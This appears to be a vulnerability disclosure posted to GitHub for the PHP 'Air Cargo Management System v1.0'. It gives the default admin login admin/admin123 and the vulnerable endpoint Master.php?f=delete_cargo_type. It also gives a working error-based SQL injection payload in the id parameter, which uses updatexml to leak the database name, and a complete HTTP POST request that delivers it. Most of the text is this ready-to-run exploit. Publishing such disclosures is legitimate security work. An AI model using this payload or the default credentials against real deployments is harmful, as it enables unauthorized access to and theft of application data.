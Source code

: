 # Air Cargo Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

The password for the backend login account is: admin/admin123

Vulnerability File: /acms/classes/Master.php?f=delete_cargo_type

Vulnerability location: /acms/classes/Master.php?f=delete_cargo_type, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /acms/classes/Master.php?f=delete_cargo_type HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/acms/admin/?page=cargo_types
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8j006kgjjl9sdts88scke1lkuq
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/166405151-ad83c64a-f11f-4e80-a3f8-0c47512a9273.png)
